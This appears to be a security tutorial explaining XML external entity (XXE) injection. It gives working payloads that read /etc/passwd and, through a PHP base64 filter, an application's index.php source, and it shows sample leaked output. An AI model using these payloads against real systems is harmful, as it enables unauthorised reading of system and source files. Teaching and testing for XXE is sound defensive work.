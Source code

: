 To perform an XXE Injection Attack to retrieve sensitive system files, an attacker needs to modify the submitted XML in two ways:
1. Introduce or edit a `DOCTYPE` element that defines an external entity containing the path of the file.
2. Edit a value in the XML that is returned in the application's HTTP response, to make sure of the defined external entity.

For example, an application checks the stock level of a product by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
An attacker can exploit the XXE vulnerability by modifying the XML to include the XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
The XXE payload defines the `&xxe;` in the `DOCTYPE` and uses the entity within the `productId` tag to return the value. This causes the application's response to include the contents of the file:
```txt
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Additionally, if the target is a PHP application, we can use wrapper filters to encode the content using Base64. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
## Note
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.